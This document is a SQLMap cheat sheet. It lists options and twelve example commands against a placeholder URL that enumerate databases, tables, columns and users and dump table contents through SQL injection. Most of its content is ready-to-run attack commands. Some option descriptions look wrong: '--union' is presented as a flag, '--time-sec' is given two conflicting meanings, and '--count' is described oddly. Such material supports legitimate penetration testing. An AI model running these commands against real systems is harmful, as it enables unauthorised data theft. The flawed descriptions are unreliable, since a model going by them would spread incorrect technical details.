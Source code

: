 ```yaml
---
title: SQLMAP CheatSheet 
description: CheatSheet
---
```

<Callout> SQLMap is a powerful tool used for detecting and exploiting SQL injection vulnerabilities in web applications. Cheat sheet covering various SQLMap commands, options, and examples </Callout>
## Table of Contents
- [Overview](#overview)
- [Basic Command Structure](#basic-command-structure)
- [Options](#options)
- [Detection and Enumeration](#detection-and-enumeration)
- [Data Extraction](#data-extraction)
- [Advanced Techniques](#advanced-techniques)
- [Examples](#examples)


### Basic Command Structure:
```bash
sqlmap [options]
```

### Options:
- `-u <URL>, --url=<URL>`: Target URL (e.g., http://example.com/page.php?id=1).
- `-r <RequestFile>, --file=<RequestFile>`: Load HTTP request from a file.
- `-p <Parameter>, --param=<Parameter>`: Inject into parameter (e.g., id).
- `--data=<Data>`: POST data to send.
- `--cookie=<Cookie>`: HTTP cookie header value.
- `--user-agent=<Agent>`: HTTP user agent header value.
- `--referer=<Referer>`: HTTP referer header value.
- `--headers=<Headers>`: Extra headers (e.g., "Header1: Value1\nHeader2: Value2").
- `--proxy=<Proxy>`: Use a proxy (e.g., "http://127.0.0.1:8080").
- `--random-agent`: Use a random HTTP user agent.
- `--level=<Level>`: Level of tests to perform (1-5, default: 1).
- `--risk=<Risk>`: Risk of tests to perform (1-3, default: 1).
- `--batch`: Run in batch mode (no user interaction).
- `--flush-session`: Flush session files for current target.
- `--technique=<Technique>`: SQL injection technique(s) to use (e.g., "U, T").
- `--string=<String>`: String to match when querying the database.
- `--time-sec=<Seconds>`: Seconds to wait before timeout (default: 5).

### Detection and Enumeration:
- `--dbs`: Enumerate databases.
- `--tables`: Enumerate tables in the selected database.
- `--columns`: Enumerate columns in the specified table.
- `--count`: Retrieve the number of entries for a given parameter.
- `--users`: Enumerate DBMS users.

### Data Extraction:
- `-D <Database>, --database=<Database>`: Database to enumerate.
- `-T <Table>, --table=<Table>`: Table to enumerate.
- `-C <Columns>, --columns=<Columns>`: Columns to retrieve.
- `--dump`: Dump the data from the specified table.

### Advanced Techniques:
- `--union`: Use SQL UNION query injection.
- `--time-sec=<Seconds>`: Seconds to delay between requests.
- `--comment=<Comment>`: Use specified comment string.
- `--no-cast`: Disable the usage of CAST() method.
- `--no-escape`: Turn off string escaping.

### Examples:
1. **Basic Scan:**
```bash
sqlmap -u "http://example.com/page.php?id=1" --batch --dump
```

2. **Using a Request File:**
```bash
sqlmap -r request.txt --batch --dump
```

3. **Enumerating Databases:**
```bash
sqlmap -u "http://example.com/page.php?id=1" --batch --dbs
```

4. **Dumping a Specific Database Table:**
```bash
sqlmap -u "http://example.com/page.php?id=1" --batch -D dbname -T table_name --dump
```

5. **Using Different Injection Techniques:**
```bash
sqlmap -u "http://example.com/page.php?id=1" --batch --technique=U --time-sec=2 --dump
```

6. **Enumerating Columns in a Table:**
```bash
sqlmap -u "http://example.com/page.php?id=1" --batch -D dbname -T table_name --columns
```

7. **Using a Proxy:**
```bash
sqlmap -u "http://example.com/page.php?id=1" --proxy="http://127.0.0.1:8080" --batch --dump
```

8. **Extracting Specific Columns:**
```bash
sqlmap -u "http://example.com/page.php?id=1" --batch -D dbname -T table_name -C "column1,column2" --dump
```

9. **Using Random User-Agent:**
```bash
sqlmap -u "http://example.com/page.php?id=1" --random-agent --batch --dump
```

10. **Advanced Techniques with Delay:**
```bash
sqlmap -u "http://example.com/page.php?id=1" --batch --technique=U --time-sec=5 --dump
```

11. **Enumerating DBMS Users:**
```bash
sqlmap -u "http://example.com/page.php?id=1" --batch --users
```

12. **Disabling String Escaping:**
```bash
sqlmap -u "http://example.com/page.php?id=1" --batch --no-escape --dump
```


